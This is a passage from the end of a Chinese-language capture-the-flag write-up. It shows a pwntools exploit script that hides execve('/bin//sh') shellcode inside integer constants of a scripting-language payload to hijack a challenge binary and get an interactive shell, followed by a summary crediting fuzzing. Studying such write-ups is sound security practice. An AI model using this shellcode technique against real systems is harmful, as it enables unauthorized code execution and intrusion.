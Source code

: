 ```
        asm('mov al, 0x6e'),
        asm('push ax'),
        asm('mov ah, 0x69'),
        asm('mov al, 0x62'),
        asm('push ax'),
        asm('mov ah, 0x2f'),
        asm('mov al, 0x2f'),
        asm('push ax'),
        asm('mov ebx, esp'),
        asm('xor eax, eax'),
        asm('mov al, 11'),
        asm('int 0x80'),
    ]
    shellcode = [instruction.ljust(2, asm('nop')) for instruction in shellcode]
    shellcode = [instruction + '\xeb\x07' for instruction in shellcode] 
    s = '((((v1 &amp;&amp; 9)-9)-9)-9)'
    for instruction in shellcode:
        s = '(`{``}` + `{``}`)'.format(s, u32(instruction))

    payload = '''
    func f(v1)
    \tvar v4 = `{``}`
    \treturn `{``}`
    run f(1)
    '''.format(14745446, s)    
    #15400960
    # payload = '''
    # func f(v1)
    # \tvar v4  = 14745446
    # \treturn ((((((v1 &amp;&amp; 9)+9)+9)-9)+`{``}`)+`{``}`)
    # run f(1)
    # '''.format(u32(asm('mov ah, 0x68')+"\xeb\x07"),u32(asm('mov al, 0x73')+"\xeb\x07"))
    p.sendline(payload)

    p.interactive()

if __name__ == "__main__":
    main(0)
```

[![](https://p5.ssl.qhimg.com/t01bdeaab0b4aa9edef.png)](https://p5.ssl.qhimg.com/t01bdeaab0b4aa9edef.png)



## 总结

通过fuzzing触发了程序的漏洞并通过对漏洞的进一步利用完成了程序流的劫持，整个过程下来并没有花费太多的时间在逆向程序的处理逻辑上，最后虽然对于漏洞的成因仍然不是很清楚但仍然pwn掉了，但通过这次的实践也让我体会到了使用fuzzing技术对于漏洞挖掘的重要意义，制定一个行之有效的fuzzing策略将能很大程度上提高我们漏洞挖掘的效率。
